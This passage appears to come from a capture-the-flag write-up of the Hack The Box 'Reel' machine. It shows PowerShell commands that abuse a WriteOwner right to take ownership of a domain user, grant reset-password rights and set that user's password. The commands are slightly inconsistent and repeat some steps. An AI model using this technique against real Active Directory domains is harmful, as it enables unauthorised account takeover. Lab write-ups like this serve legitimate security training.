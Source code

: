 ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reel%20Box%2077ebbf76f666408a8f839e4db867b034/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reel%20Box%2077ebbf76f666408a8f839e4db867b034/Untitled%2016.png)

⇒ Abusing WriteOwner to make ourselves owner of claire and then add resetpassword rights to ourselves and change the password

```powershell
# Making ourselves owner

Set-DomainObjectOwner -Identity claire -OwnerIdentity tom

# Giving ourselves reset password rights

Add-DomainObjectAcl -TargetIdentity htb\claire -PrincipalIdentity htb\claire -Rights ResetPassword

# Resetting the password

Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom
$newpass = ConvertTo-SecureString -String 'P@$$w0rd!1234' -AsPlainText -Force
Set-DomainUserPassword -Identity claire -AccountPassword $newpass
```
